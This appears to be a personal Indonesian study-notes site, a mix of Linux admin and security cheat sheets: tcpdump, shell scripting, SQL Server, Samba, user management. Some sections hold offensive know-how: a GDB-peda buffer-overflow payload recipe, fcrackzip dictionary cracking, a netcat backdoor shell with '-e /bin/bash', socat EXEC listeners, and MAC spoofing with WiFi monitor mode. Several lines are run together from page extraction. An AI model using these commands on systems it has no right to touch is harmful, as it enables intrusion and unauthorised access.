Perintah yang perlu dijalankan untuk menangkap paket IPv6 yang melalui eth5 adalah
tcpdump -i eth5 -vv ip6
Untuk melakukan capture packet, dapat di jalankan perintah
tcpdump -t -n -i eth0 -vv
Untuk melakukan capture packet IPv6, dapat di jalankan perintah
tcpdump -t -n -i eth0 -s 512 -vv ip6 or proto ipv6
Dimana:
-s 512 : menaikan panjang snap saat menangkap paket 512 bytes
-vv : output lebih verbose
-n : jangan resolve address ke hostname. Ini terutama bermanfaat jika reverse DNS tidak berjalan baik.
Tcpdump: capture paket dalam format pcap utk wireshark
tcpdump -ni eth0 -s0 -w /var/tmp/capture.pcap
tcpdump -i eth0 -s 0 -w ./dump.pcap
dan lain-lain 😋
Install GDB
sudo apt install gdb
git clone https://github.com/longld/peda.git ~/peda
untuk permanen gdb peda tiap run gdb :
echo "source ~/peda/peda.py" >> ~/.gdbinit
tapi jika tidak ingin permanen :
gdb
source ~/peda/peda.py
mencari buffer (jika) :
jalankan gdb peda
gdb
source ~/peda/peda.py
pattern create 100
misal didapat pattern :
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
lalu run program :
run
jika diminta input :
masukkan input blablabla : AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
pokoknya sampai segmentation fault
cek offset :
pattern offset <memory-offset>
misal didapat offset 52, maka tinggal buat payloadnya
input payload
python -c "print 'a'*52+'\xef\xbe\xad\xde'" | ./(elf)
jika berupa running shell
(python -c "print 'a'*52+'\xef\xbe\xad\xde'";cat) | ./(elf)
*jika hex memory membentuk printable alphabet, maka tulis dengan alpahbet saja
web untuk mencari payload shell http://shell-storm.org/shellcode/
input in running gdb
(gdb) r <<< $(<span class="hljs-name">python</span> -c <span class="hljs-string">"print '\xde\xad\xbe\xef'"</span>)
(gdb) r <<< $(<span class="hljs-name">python</span> -c <span class="hljs-string">"print 0xdeadbeef"</span>)
*masih kacau (not recommended)
Cheat sheet
radare2
install
git clone https://github.com/radare/radare2.git
cd radare2/
./sys/install.sh
menjalankan program
r2 (elf)
r2 -d (elf)
radare2 (elf)
beberapa instruksi :
- analisis blablabla :
aaa - seek to main :
s sys.main - print disassambly :
pdf - break :
db break_point - run/continue :
dc - visual :
VV - step into :
s - next into :
caps + s - info register :
dr
mengubah nilai : (misal ke memori 0x000)
dr rip=0x000
rename var-name :
afvn prev_name namefcrackzip :
fcrackzip -v -D -u -p rockyou.txt file.zip
Ngrok
sign in https://ngrok.com/ untuk mendapat token
Install
proses menggunakan ./ngrok
sudo apt update
sudo apt -y install snapd
sudo snap install ngrok
atau
proses menggunakan /path/to/ngrok
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip /path/to/ngrok.zip
Running
/snap/bin/ngrok authtoken <your_auth_token>
/snap/bin/ngrok help
/snap/bin/ngrok http 80
/snap/bin/ngrok http 80 # secure public URL for port 80 web server
/snap/bin/ngrok http -subdomain=baz 8080 # port 8080 available at baz.ngrok.io
/snap/bin/ngrok http foo.dev:80 # tunnel to host:port instead of localhost
/snap/bin/ngrok http https://localhost # expose a local https server
/snap/bin/ngrok tcp 22 # tunnel arbitrary TCP traffic to port 22
/snap/bin/ngrok tls -hostname=foo.com 443 # TLS traffic for foo.com to port 443
/snap/bin/ngrok start foo bar baz # start tunnels from the configuration fileNetcat
nc adalah perintah yang menjalankan netcat. netcat adalah tool di Unix yang dapat membaca dan menuliskan data melalui jaringan, menggunakan protokol TCP atau UDP. netcat dirancang agar menjadi tool "back-end" yang dapat digunakan secara langsung atau di gunakan oleh program / script lain.
Selain itu, netcat tool untuk debugging dan explorasi jaringan yang mempunyai banyak fitur, karena netcat mampu untuk membuat berbagai sambungan yang kita butuhkan dan mempunyai beberapa kemampuan built-in yang menarik.
Penggunaan secara umum termasuk:
-
TCP proxy sederhana.
-
Shell-script based HTTP client dan server.
-
Network daemon untuk percobaan.
-
ProxyCommand Sock atau HTTP untuk SSH.
nc [-46bCDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl] [-m minttl] [-O length] [-P proxy_username] [-p source_port] [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]] [destination] [port]
DESCRIPTION
The nc (or netcat) utility is used for just about anything under the sun involving TCP, UDP, or UNIX-domain sockets. It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6. Unlike telnet(1), nc scripts nicely, and separates error messages onto standard error instead of sending them to standard output, as telnet(1) does with some.
Common uses include:
- simple TCP proxies
- shell-script based HTTP clients and servers
- network daemon testing
- a SOCKS or HTTP ProxyCommand for ssh(1)
- and much, much more
Contoh
Contoh 1
cek koneksi sederhana :
Server
nc -l 12345
Client
nc <ip_server> 12345
ketika connect pertama maka muncul text "tesssss" :
Server
echo "tesssss" | nc -l 12345
Client
nc <ip_server> 12345
transferring from server to client :
Server
echo "ganteng" > filename.txt
nc -l 1499 > filename.txt
Client
nc <ip_server> 1499 < terima.txt
Launching Reverse (Backdoor) Shells :
Server
? masih gagal
nc -n -v -l -p 5555 -e /bin/bash
Cleint
nc -nv <ip_server> 5555
Menggunakan socat :
Server
socat STDIN tcp-listen:12345
Client
nc <ip_server> 12345
atau
socat STDIN TCP4:<ip_server>:12345
Run .exe :
Server
socat TCP-LISTEN:12345 EXEC:./file.exe
atau
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:./file.exe
Client
nc <ip_server> 12345
Shell Script
vim tes.sh
lalu
#!/bin/bash
nama="syahrul"
echo $nama
# Will print out : syahrul
NAME="Gunawan"
readonly NAME
NAME="Aulia"
# Will print out : /bin/bash: NAME: This variable is read only.
NAME="Carloz"
unset NAME
echo $NAME
# Will print out : (nothing)
chmod
chmod +x tes.sh
tambahan
common chmod
rwxrwxrwx = 111111111 = 777
rwxrwx--- = 111111000 = 770
rwxr-xr-x = 111101101 = 755
rwxr--r-- = 111100100 = 744
rwx------ = 111000000 = 700
rw-rw-rw- = 110110110 = 666
rw-r--r-- = 110100100 = 644
rw------- = 110000000 = 600
r-------- = 100000000 = 400
menghapus kecuali
find . -type f,d ! -name 'pyt.py' -delete
Shell Special Character
echo "File Name: $0"
echo "First Parameter : $1"
echo "Second Parameter : $2"
echo "Quoted Values: $@"
echo "Quoted Values: $*"
echo "Total Number of Parameters : $#"
hasil
$./test.sh Zara Ali
File Name : ./test.sh
First Parameter : Zara
Second Parameter : Ali
Quoted Values: Zara Ali
Quoted Values: Zara Ali
Total Number of Parameters : 2
for TOKEN in $*
do
echo $TOKEN
done
hasil
$./test.sh Zara Ali 10 Years Old
Zara
Ali
10
Years
OldOperators
Contoh
val=`expr 2 + 2`
echo "Total value : $val"
#!/bin/sh
a=10
b=20
val=`expr $a + $b`
echo "a + b : $val"
val=`expr $a - $b`
echo "a - b : $val"
val=`expr $a \* $b`
echo "a * b : $val"
val=`expr $b / $a`
echo "b / a : $val"
val=`expr $b % $a`
echo "b % a : $val"
if [ $a == $b ]
then
echo "a is equal to b"
fi
if [ $a != $b ]
then
echo "a is not equal to b"
fi
#!/bin/sh
a=10
b=20
if [ $a -eq $b ]
then
echo "$a -eq $b : a is equal to b"
else
echo "$a -eq $b: a is not equal to b"
fi
if [ $a -ne $b ]
then
echo "$a -ne $b: a is not equal to b"
else
echo "$a -ne $b : a is equal to b"
fi
if [ $a -gt $b ]
then
echo "$a -gt $b: a is greater than b"
else
echo "$a -gt $b: a is not greater than b"
fi
if [ $a -lt $b ]
then
echo "$a -lt $b: a is less than b"
else
echo "$a -lt $b: a is not less than b"
fi
if [ $a -ge $b ]
then
echo "$a -ge $b: a is greater or equal to b"
else
echo "$a -ge $b: a is not greater or equal to b"
fi
if [ $a -le $b ]
then
echo "$a -le $b: a is less or equal to b"
else
echo "$a -le $b: a is not less or equal to b"
fi
#!/bin/sh
a=10
b=20
if [ $a != $b ]
then
echo "$a != $b : a is not equal to b"
else
echo "$a != $b: a is equal to b"
fi
if [ $a -lt 100 -a $b -gt 15 ]
then
echo "$a -lt 100 -a $b -gt 15 : returns true"
else
echo "$a -lt 100 -a $b -gt 15 : returns false"
fi
if [ $a -lt 100 -o $b -gt 100 ]
then
echo "$a -lt 100 -o $b -gt 100 : returns true"
else
echo "$a -lt 100 -o $b -gt 100 : returns false"
fi
if [ $a -lt 5 -o $b -gt 100 ]
then
echo "$a -lt 100 -o $b -gt 100 : returns true"
else
echo "$a -lt 100 -o $b -gt 100 : returns false"
fi
#!/bin/sh
a="abc"
b="efg"
if [ $a = $b ]
then
echo "$a = $b : a is equal to b"
else
echo "$a = $b: a is not equal to b"
fi
if [ $a != $b ]
then
echo "$a != $b : a is not equal to b"
else
echo "$a != $b: a is equal to b"
fi
if [ -z $a ]
then
echo "-z $a : string length is zero"
else
echo "-z $a : string length is not zero"
fi
if [ -n $a ]
then
echo "-n $a : string length is not zero"
else
echo "-n $a : string length is zero"
fi
if [ $a ]
then
echo "$a : string is not empty"
else
echo "$a : string is empty"
fi
#!/bin/sh
file="/var/www/tutorialspoint/unix/test.sh"
if [ -r $file ]
then
echo "File has read access"
else
echo "File does not have read access"
fi
if [ -w $file ]
then
echo "File has write permission"
else
echo "File does not have write permission"
fi
if [ -x $file ]
then
echo "File has execute permission"
else
echo "File does not have execute permission"
fi
if [ -f $file ]
then
echo "File is an ordinary file"
else
echo "This is sepcial file"
fi
if [ -d $file ]
then
echo "File is a directory"
else
echo "This is not a directory"
fi
if [ -s $file ]
then
echo "File size is not zero"
else
echo "File size is zero"
fi
if [ -e $file ]
then
echo "File exists"
else
echo "File does not exist"
fi
Shell Script Array
array_name=(value1 ... valuen)
NAME[0]="Zara"
NAME[1]="Qadir"
NAME[2]="Mahnaz"
NAME[3]="Ayan"
NAME[4]="Daisy"
echo "First Index: ${NAME[0]}"
echo "Second Index: ${NAME[1]}"
echo "First Method: ${NAME[*]}"
echo "Second Method: ${NAME[@]}"
Shell Script Decision
#!/bin/sh
a=10
b=20
if [ $a == $b ]
then
echo "a is equal to b"
fi
if [ $a != $b ]
then
echo "a is not equal to b"
fi
#!/bin/sh
a=10
b=20
if [ $a == $b ]
then
echo "a is equal to b"
else
echo "a is not equal to b"
fi
#!/bin/sh
a=10
b=20
if [ $a == $b ]
then
echo "a is equal to b"
elif [ $a -gt $b ]
then
echo "a is greater than b"
elif [ $a -lt $b ]
then
echo "a is less than b"
else
echo "None of the condition met"
fi
#!/bin/sh
a=10
b=20
if [ $a == $b ]
then
echo "a is equal to b"
elif [ $a -gt $b ]
then
echo "a is greater than b"
elif [ $a -lt $b ]
then
echo "a is less than b"
else
echo "None of the condition met"
fi
#!/bin/sh
option="${1}"
case ${option} in
-f) FILE="${2}"
echo "File name is $FILE"
;;
-d) DIR="${2}"
echo "Dir name is $DIR"
;;
*)
echo "`basename ${0}`:usage: [-f file] | [-d directory]"
exit 1 # Command to come out of the program with status 1
;;
esac
Shell Script Loop
while
#!/bin/sh
a=0
while [ $a -lt 10 ]
do
echo $a
a=`expr $a + 1`
done
foor
#!/bin/sh
for var in 0 1 2 3 4 5 6 7 8 9
do
echo $var
done
for FILE in $HOME/.bash*
do
echo $FILE
done
until loop
#!/bin/sh
a=0
until [ ! $a -lt 10 ]
do
echo $a
a=`expr $a + 1`
done
select loop
#!/bin/ksh
select DRINK in tea cofee water juice appe all none
do
case $DRINK in
tea|cofee|water|all)
echo "Go to canteen"
;;
juice|appe)
echo "Available at home"
;;
none)
break
;;
*) echo "ERROR: Invalid selection"
;;
esac
done
OpenSSL
sumber bacaan : https://github.com/openssl/openssl
git clone git://git.openssl.org/openssl.git
openssl version
openssl version -a
openssl file
enc :
openssl aes-256-cbc -a -salt -in secrets.txt -out secrets.txt.enc
dec :
openssl aes-256-cbc -d -a -in secrets.txt.enc -out secrets.txt.new
or
echo U2FsdGVkX18YcWkbmhsN7M/MP1E+GLf4IqmNsa53T+A= | openssl aes-256-cbc -d -a
echo U2FsdGVkX18YcWkbmhsN7M/MP1E+GLf4IqmNsa53T+A= | openssl aes-256-cbc -d -a -pass pass:<pass>
masih ambyuradyul
Archive File
Zip
make zip password file
zip -re output_file.zip file1 folder1
Jika lupa password : (asumsi password mudah / ada dalam wordlist)
https://www.lostmypass.com/file-types/rar/
https://www.lostmypass.com/file-types/zip/
https://www.lostmypass.com/file-types/7z/Tips
Kosong
web ini menggunakan mdbook :D
mdbook
simpelnya, mdbook adalah jika kita ingin membuat catatan berupa web, kita cukup menulis lewat markdown, maka secara otomatis dibuatkan websitenya, lalu tinggal diupload ke hosting
mirip seperti CMS tapi versi HTML
ada banyak cara install, salah satunya yang saya gunakan : (ubuntu 20.04)
Cara 1
cara ini kadang gagal :D
install rush :
curl https://sh.rustup.rs -sSf | sh
install cargo :
sudo apt install cargo
install mdbook :
sudo cargo install mdbook
Cara 2 / cara yang paling mudah :
sudo apt install cargo
cargo install --git https://github.com/rust-lang/mdBook.git mdbook
atau cari referensi di internet "install mdbook" jika cara diatas gagal :D, salah satu link referensi ada di bawah
setelah selesai install :
membuat folder :
mkdir tes
cd tes
make init :
mdbook init
maka akan ada 3 item :
book : berisi file keseluruhan/hasil, yang diupload ke hosting
book.toml : berisi configurasi
src : berisi source untuk kita menambah/hapus/mengedit konten, dan mengatur navigasi
compile program : (untuk membuat isi book)
mdbook build
run : dijalankan jika ingin menggunakan mdbook mode IP
mdbook serve
ada
2021-02-28 10:21:10 [INFO] (warp::server): listening on http://127.0.0.1:3000
lalu copas link http://127.0.0.1:3000, masukkan di browser
atau dapat masukkan link directory file:///<directory>/book/<file>.html
Configurasi
untuk configurasi pusat ada di /home/<user>/.cargo/git/checkouts/mdbook-468dfae15ac0a68f/536873c
atau tergantung versi mdbooknya
bacaan utamanya ada di dalam folder guide / guide/src/format/config.md / guide/src/format/theme/README.md / src / src/theme
salah satu referensi penggunaan mdbook :
link sama saja :D
beberapa syntax
# Markdown tests
Tests for some markdown output.
## Tables
| foo | bar |
| --- | --- |
| baz | bim |
## Footnotes
Footnote example[^1], or with a word[^word].
[^1]: This is a footnote.
[^word]: A longer footnote.
With multiple lines.
Third line.
## Strikethrough
~~strikethrough example~~
## Tasklisks
- [X] Apples
- [X] Broccoli
- [ ] Carrots
{{#include guide-this-website.md::}}
Markdown tests
Tests for some markdown output.
Tables
| foo | bar |
|---|---|
| baz | bim |
Footnotes
Footnote example1, or with a word2.
This is a footnote.
A longer footnote. With multiple lines. Third line.
Strikethrough
strikethrough example
Tasklisks
- Apples
- Broccoli
- Carrots
Kosong
web ini menggunakan mdbook :D
Install / Remove .deb in ubuntu
install :
sudo dpkg -i packagename.deb
jika diperlukan
sudo apt-get install -f
atau
sudo apt install packagename.deb
# atau
sudo apt install ./packagename.deb
terus sudo apt update
remove :
sudo dpkg -r packagename
# atau
sudo apt-get remove packagename
maksa install :
sudo aptitude install packagename
maksa hapus :
sudo dpkg --purge packagename
jika update ada kendala lock, remove di /etc/apt/sources.list.d/
, atau paling aman reboot laptop aja
Install sql server ubuntu 18.04
gagal di ubuntu 20.04, bisa di ubuntu 18.04
-> gagal di 'sudo apt-get install mssql-tools unixodbc-dev'
(UPDATE SOLUSIII!!!) ->
sudo apt install aptitude
sudo aptitude install mssql-tools unixodbc-dev
*jika tdk punya, bisa pakai virtualbox, dengan spesifikasi virtualbox mesin min 2gb ram
dan tiap ingin menjalankan harus sambil menghidupkan mesin
sudo apt update && sudo apt upgradewget -qO- https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
sudo add-apt-repository "$(wget -qO- https://packages.microsoft.com/config/ubuntu/18.04/mssql-server-2019.list)"
sudo apt-get install -y mssql-server
sudo /opt/mssql/bin/mssql-conf setup
pilih developer, yes, masukkan password
cek apakah sdh bisa, jika bisa ada tulisan active :
systemctl status mssql-server --no-pagerlanjut :
curl https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
curl https://packages.microsoft.com/config/ubuntu/18.04/prod.list | sudo tee /etc/apt/sources.list.d/msprod.list
sudo apt-get update
sudo apt-get install mssql-tools unixodbc-devopsional : (tdk jg gpp, aku jg ga)
sudo apt-get update
sudo apt-get install mssql-toolslanjut :
echo 'export PATH="$PATH:/opt/mssql-tools/bin"' >> ~/.bash_profile
echo 'export PATH="$PATH:/opt/mssql-tools/bin"' >> ~/.bashrc
source ~/.bashrclogin sqlserver lwat terminal : (atau boleh lngs ke software spt dbeaver)
sqlcmd -S localhost -U 'usernamemu' -P 'passwordmu'default username : SA
nyoba2 kuy :
create db
CREATE DATABASE TestDB
SELECT Name from sys.Databases
GOinsert db
USE TestDB
CREATE TABLE Inventory (id INT, name NVARCHAR(50), quantity INT)
INSERT INTO Inventory VALUES (1, 'banana', 150); INSERT INTO Inventory VALUES (2, 'orange', 154);
GOselect db
SELECT * FROM Inventory WHERE quantity > 152;
GO
Setting IP Static
periksa interface :
ifonfig
misal interfacenya enp0s3
sudo su
nano /etc/netplan/00-installer-config.yaml
ganti isinya dengan :
# ini utk ip dinamis
# network:
# ethernets:
# enp0s3:
# dhcp4: true
# version: 2
# ini utk ip statis
network:
version: 2
renderer: networkd #opsional
ethernets:
enp0s3: # interface
dhcp4: false
addresses: [192.168.43.207/24] # ip yg ingin di set
gateway4: 192.168.43.1 # gateway / ip server (HP :v)
nameservers:
addresses: [8.8.8.8,8.8.4.4,1.1.1.1] # server dns, persis gini jg gpp
tinggal reboot :
shutdown -r now
cek :
ifconfigHTTPS in Local Network (Ubuntu Server 20.04) :
sudo su
openssl req -x509 -days 1 -newkey rsa:2048 -keyout /home/carloz/localhost.key -out /home/carloz/localhost.crt
Enter PEM pass phrase: misal 1234 (antara 4 - 1024 character) country name : ID state or province : Jawa Tengah locality name : Kudus organization name : AUWO organizational unit name : AUWO2 common name : ganteng email addr : carloz@ganteng.com
vim /etc/apache2/sites-available/https.conf
isi dengan :
<VirtualHost *:443>
ServerName 127.0.1.1
DocumentRoot /var/www/html
SSLEngine on
SSLCertificateFile "/home/carloz/localhost.crt"
SSLCertificateKeyFIle "/home/carloz/localhost.key"
<Directory /var/www/html>
AllowOverride all
</Directory>
</VirtualHost>
a2ensite https.conf
systemctl reload apache2
cek status :
systemctl status apache2.service
jika ada error, silahkan oprec2 sendiri
misal error "Invalid command 'SSLEngine', blablablaa....", seperti gambar :
maka dapat dengan :
a2enmod ssl
lalu setelah error hilang :
systemctl restart apache2
- enter passphrase : 1234
done
systemctl status apache2.service
buka web browser, masukkan https://localhost/ atau https://ip/
jika ada warning, tinggal klik advanced..., accept the risk and continue
suatu ketika kok terjadi loading lama di web, coba
systemctl restart apache2
masukkan kode rsa nya '1234'
IT Career Roadmap


CompTIA
sumber : https://www.comptia.org-
$80251/thn
- System/s Administrator
- Network Engineer
- System/s Engineer
- Scan and assess network for vulnerabilities
- Monitor network traffic for unusual activity
- Investigate a violation when a breach occurs
- Install and use software to protect sensitive information
- Prepare reports that document security breaches
- Research new security technology
- Help end-users when they need to install or learn about new products and procedures
18709 looking
Job Titles :
Required skills at this level :
-
$94,379
- Security Analyst
- Security Engineer
- Pen Tester
- Manage and configure tools to monitor network activity
- Conduct penetration testing
- Analyze reports from tools to identify unusual network behavior
- Plan and recommend changes to increase the security of the network
- Apply security patches to protect the network
- Help end-users when they need to install or learn about new products and procedures
- Train beginner cybersecurity professionals
53,739 looking
Job Titles :
Required skills at this level :
-
$105,033
- Senior Security Engineer
- Senior Security Analyst
- CISO
- Manage and configure tools to monitor network activity
- Research the latest IT security trends
- Develop security standards and best practices for the organization
- Recommend security enhancements to management or senior staff
- Develop and update business continuity and disaster recovery protocols
- Help end-users when they need to install or learn about new products and procedures
- Manage and train team
44,331 looking
Job Titles :
Required skills at this level :
- Beginer
- CompTIA Network+
- CompTIA Security+
- Partner Certifications
- Intermediate
- CompTIA Project+
- CompTIA CySA+
- CompTIA PenTest+
- Partner Certifications
- Advance
- CompTIA CASP+
- Partner Certifications
Desc Certification :
- Networking Concepts 23%
- Infrastructure 18%
- Network Operations 17%
- Network Security 20%
- Network Troubleshooting and Tools 22%
- Total 100%
- Threats, Attacks and Vulnerabilities 21%
- Technologies and Tools 22%
- Architecture and Design 15%
- Identity and Access Management 16%
- Risk Management 14%
- Cryptography and PKI 12%
- Total 100%
- Threat and Vulnerability Management 22%
- Software and Systems Security 18%
- Security Operations and Monitoring 25%
- Incident Response 22%
- Compliance and Assessment 13%
- Total 100%
- Project Basics 36%
- Project Constraints 17%
- Communication and Change Management 26%
- Project Tools and Documentation 21%
- Total 100%
- Planning and Scoping 15%
- Information Gathering and Vulnerability Identification 22%
- Attacks and Exploits 30%
- Penetration Testing Tools 17%
- Reporting and Communication 16%
- Total 100%
- Certified Information Systems Auditor (CISA)
- Certified in Risk and Information Systems Control (CRISC)
- Certified Information Security Manager (CISM)
- Certified in the Governance of Enterprise IT (CGEIT)
- Entry (CCT)
- Associate (CCNA)
- Professional (CCNP)
- Expert (CCIE)
- Architect (CCAr)
-
The table below lists the domains measured by the full examination and the extent to
which they are
represented.
Domain and percentage of examination :
-
The table below lists the domains measured by the full examination and the extent to
which they are represented.
Domain and percentage of examination :
----------------------------------------------------
-
The table below lists the domains measured by the full examination and the
extent to which they are represented.
Domain and percentage of examination :
Core 1 (220-1001)
-
The table below lists the domains measured by the full examination and the extent to
which
they are
represented.
Domain and percentage of examination :
Core 1 (220-1001)
-
The table below lists the domains measured by the full examination and the
extent to which they are represented.
Domain and percentage of examination :
Core 1 (220-1001)
-
Validate skills in IT audit, security, governance and risk. ISACA certifications are
based on primary responsibility,
rather than a defined level :
-
Validate skills in security administration, management, audit, and software security;
offering more
than 30 specialized information security certifications that correspond to specific job
duties.
- Validates networking skills using Cisco equipment
and technologies. Cisco organizes their certifications across 5 levels:
-----------------------------------------------
CASP+ is an advanced certification that validates critical thinking and judgment across a spectrum of security disciplines in complex environments
ISC2 is best recognized for its CISSP credential. CISSP recognizes information security leaders who understand cybersecurity strategy.
Other Certifications
-
Certifications :
- Jaringan : CCNA, MTCNA, MTCRE, MTCUME, MTCTCE
- Hacking : CEH, OSCP
- Forensic : CHFI
- Information Security (ISO27001) : CISSCP, CISA, CSCP
Offensive Security
Conclusion
-
IT Certification :
- CISSP
- CCIE
- OSCP < Cisco
- GSE < GCIH < GCIA < GSEC
- GPEN
- GWAPT
- GCIH
- CySA+
- CompTIA Sec+
- A+
- Cisco Cybersecurity course
- Introduction to Cyber Security
- Cyber Security Essential
- FORTINET
- CISA ICS-CERT VLP
- SANS CYBER ACES
- tenable
- paloalto
- coursera
- microsoft azure
- cybrary
- edx
- udemy
-
offensive-security.com
comptia.org
netacad.com
eccouncil.org
isc2.org
pmi.org
aws.amazon.com/certification
docs.microsoft.com/en-us/learn/certification
hardest cert :
Entry Level :
Free Certification :
Sertifikat Indonesia :
MIT Course Ware
Wlan Monitor Mode
(!) Masih gagal, kyknya krn adapter wifi krng gaharcek interface wifi :
iwconfigairmon-ngpunyaku pakai wlp2s0
Change Mac Address :
ifconfig wlp2s0 downmacchanger --random wlp2s0ifconfig wlp2s0 upconnect wifi dulu
wifi monitor mode :
-
cara 1 :
-
mode monitor :
airmon-ng start wlp2s0gambar wifi hilang, tdk bs buat internetan, santuy emg gitu
cek mode :
iwconfig wlp2s0monjika sudahan :
airmon-ng stop wlp2s0moncek :
iwconfig wlp2s0
cara 2 :
-
men-down wlp2s0 :
ifconfig wlp2s0 downmode monitor :
airmon-ng start wlp2s0cek :
iwconfig wlp2s0monmen-up : # gunanya apa?
ifconfig wlp2s0mon upmen-down :
airmon-ng stop wlp2s0monkill all process airmon-ng :
airmon-ng check killcara 3 :
-
mode monitor :
airmon-ng start wlp2s0meng-up :
ifconfig wlp2s0mon upmendisable :
airmon-ng stop wlp2s0
airmon-ng stop wlp2s0moncara 4 :
-
mode monitor :
iwconfig wlp2s0 mode monitorcek :
iwconfig wlp2s0mode managed :
iwconfig wlp2s0 mode managed-
cara sistem :
airmon-ng start wlp2s0
airmon-ng stop wlp2s0moncara manual :
iwconfig wlp2s0 mode monitor
iwconfig wlp2s0 mode managedairodump-ng wlp2s0mon(*)Note
jika setelah airomon-ng check kill terjadi problem, seperti wifi tidak muncul lagi,
service NetworkManager restartairmon-ng stop wlp2s0moniwconfig wlp2s0 mode managediwconfigmungkin jika perlu
ifconfig wlp2s0 upalternatif airomon-ng check kill (not recommended) :
ifconfig wlp2s0 down
iwconfig wlp2s0 mode monitor
ifconfig wlp2s0 up
aireplay-ng wlp2s0 # ga bisa ifconfig wlp2s0 down : wifi emg masih nyala, tp sebetulnya mati/ga nyambung internet
Virtualbox
Extension Pack
download extension pack agar mode usb nambah banyak
agar usb tampak :
- lihat nama user : (opsional)
- cek list group, biasanya grup utk virtualbox adalah
vboxusers: - add group :
- kyknya perlu di reboot
echo $USERcompgen -gsudo usermod -a -G vboxusers $USERCopy file host ke remote, dan sebaliknya
mengirim dari host ke remote :
-
file :
scp <file_yg_akan_dikirim> <user_remote>@<ip_remote>:<directory_tujuan>directory :
scp -r <directory_yg_dikirim> <user_remote>@<ip_remote>:<directory_tujuan>scp <user_remote>@<ip_remote>:<file_directorynya> <tujuan_di_directorymu>jika menghendaki ada port dan key
scp <user_remote>@<ip_remote>:<file_directorynya> <tujuan_di_directorymu> -P <port> -i <path_key>Windows ISO
-
drive, sudah dihapus google :V
Membuat file sharing virtualbox
connect ssh :
-
pc-target :
sudo service ssh status
sudo service ssh startnamun, jika masih tdk bisa :
sudo iptables -A INPUT -p tcp --dport ssh -j ACCEPThost :
mkdir -p /mnt/cobafilesharing-public
mkdir -p /mnt/cobafilesharing-datasudo su
mkdir /home/public
mkdir /home/data
apt update
apt -y install samba cifs-utils
vi /etc/samba/smb.confworkgroup = WORKGROUP
netbios name = COBAFILESHARING
# dibagian bottom
[public]
path = /home/public
available = yes
browsable = yes
public = yes
writable = yes
[data]
path = /home/data
available = yes
browsable = yes
public = yes
writable = no
mkdir -p /home/public
mkdir -p /home/data
chown -Rf nobody.nogroup /home/public
chown -Rf nobody.nogroup /home/data
chmod -Rf 777 /home/public
chmod -Rf 777 /home/datasmbpasswd -a carloz/etc/init.d/smbd restartmatikan firewall
ufw disablehost :
-
cek sdh mount apa blm :
df -hmount -t cifs //192.168.43.207/public/ /mnt/cobafilesharing-public/ -o password=123456,username=carlozDone, jika ingin sharing file bisa lewat folder tersebut
Resize memory virtualbox
VBoxManage clonehd Ubuntu\ Server\ 18.04\ LTS.vdi ubuntu18_04_new4.vdi --format VDI --variant Standard
VBoxManage modifyhd ubuntu18_04_new4.vdi --resize 30000ganti storage lewat GUI virtualbox
$PATH
contoh beberapa $PATH shell
/usr/bin
/usr/bin/bash
/usr/bin/zsh
/usr/local/bin
/usr/local/sbin
/usr/sbin
/sbin
/usr/local/games
/usr/gamesuntuk melihat apa saja path shell yang digunakan
echo $PATHtiap user bisa berbeda, seperti :
-
user :
/usr/bin
/bin
/usr/local/bin
/usr/local/games
/usr/games/usr/bin
/bin
/usr/local/bin
/usr/local/sbin
/usr/sbin
/sbinexport PATH=$PATH:/place/with/the/fileexport PATH=/place/with/the/file:$PATHecho $SHELLecho $0Kesimpulan
- cek dulu pakai shell apa :
- jika ingin membuat shellcode sendiri : (jika tidak langsung ke step selanjutnya)
- masukkan path di shell : (membuat permanent)
- close terminal / "
source ~/."
echo $SHELLecho $0gunanya apa?, agar dapat dipermanenkan
mkdir /home//Documents/buat_shell_sendiri
cd /home//Documents/buat_shell_sendiri
vim ganteng # ini misal command untuk cetak isi directory, lalu membuat file "tes.txt" dan folder "ini_folder", dan didalam "ini_folder" ada file "file_dalam.txt"
ls
mkdir ini_folder
touch ini_folder/file_dalam.txtchmod +x gantenguji dulu : (tidak permanent)
export PATH=$PATH:/home//Documents/buat_shell_sendiri gantengvim ~/.bashrcatau
vim ~/.zshrcatau
(tergantung pakai shell apa)
tambahkan :
export PATH=$PATH:/home//Documents/buat_shell_sendiri Linux User & Group
Cek User :
cat /etc/passwdcat /etc/passwd | cut -d: -f1root : x : 0 : 0 : root : /root : /usr/bin/zsh
user : pass : uid : gid : comment : homedir : shellid tecmintCek Group :
cat /etc/groupcat /etc/group | cut -d: -f1kaboxer : x : 146 : syahrul,root
gname : pass : GID : usersAdd user
mkdir <nama_user>useradd <nama_user>passwd <nama_user>useradd -d /home/carloz/coba <nama_user>useradd -u 999 <nama_user> # default id 500, 501, 502, and so on...useradd -u 1000 -g 500 <nama_user>useradd -G admins,webadmin,developers <nama_user>useradd -M <nama_user>useradd -e 2014-03-27 <nama_user>chage -l aparnaLast password change : Mar 28, 2014
Password expires : never
Password inactive : never
Account expires : Mar 27, 2014
Minimum number of days between password change : 0
Maximum number of days between password change : 99999
Number of days of warning before password expires : 7useradd -e 2014-04-27 -f 45 <nama_user>useradd -s /sbin/nologin <nama_user>useradd -c "Aku ganteng dan aku bangga" <nama_user>contoh hasil
-
Add a User with Specific Home Directory, Default Shell and Custom Comment
This command will create a user ‘ravi‘ with home directory ‘/var/www/tecmint‘, default shell /bin/bash and adds extra information about user. In the above command ‘-m -d‘ option creates a user with specified home directory and the ‘-s‘ option set the user’s default shell i.e. /bin/bash. The ‘-c‘ option adds the extra information about user and ‘-U‘ argument create/adds a group with the same name as the user.
useradd -m -d /var/www/ravi -s /bin/bash -c "TecMint Owner" -U raviAdd a User with Home Directory, No Shell, Custom Comment and User ID
